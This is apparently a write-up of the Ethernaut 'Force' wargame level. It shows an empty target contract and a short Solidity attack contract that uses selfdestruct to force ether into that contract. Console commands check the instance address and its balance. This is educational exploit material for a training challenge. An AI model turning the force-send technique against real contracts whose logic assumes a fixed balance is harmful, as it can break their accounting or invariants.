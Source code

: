 <img src="https://ethernaut.openzeppelin.com/imgs/BigLevel7.svg">

## Target Contract Review

Given contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```

Challenge's message.

> Some contracts will simply not take your money ¯\_(ツ)_/¯
The goal of this level is to make the balance of the contract greater than zero.

Our aim should be send ether to target contract to solve this challenge.

## Subverting

My attack contract.

```solidity
pragma solidity ^0.8.0;

contract Attack{

    address payable target;

    constructor(address payable _target){
        target = _target;
    }

    function attack()public payable{
        selfdestruct(target);
    }
}
```

In the starting point, identify the contart address which is our target. Afterwards, send ether to target contract with ```selfdestruct()``` method. With help of selfdestruct, contracts can be deleted from the blockchain and selfdestruct **sends all remaining ether stored in the contract** to a designated address. For this reason,
a malicious contract can use **selfdestruct** to force sending Ether to any contract.

Learn target contract's address.

```shell
await instance
'0x2C5eB5feC2C02C4bAba25DfD9e9E9092967Bde51'
```
Deploy and call attack function.

<img src="https://github.com/wasny0ps/Ethernaut-Challenges/blob/main/Challenges/Force/img/deploy.png">

<img src="https://github.com/wasny0ps/Ethernaut-Challenges/blob/main/Challenges/Force/img/transaction.png">


Check instance's balance. Solved the challenge.

```shell
await getBalance(instance)
'0.00000000000000010'
```

**_by wasny0ps_**
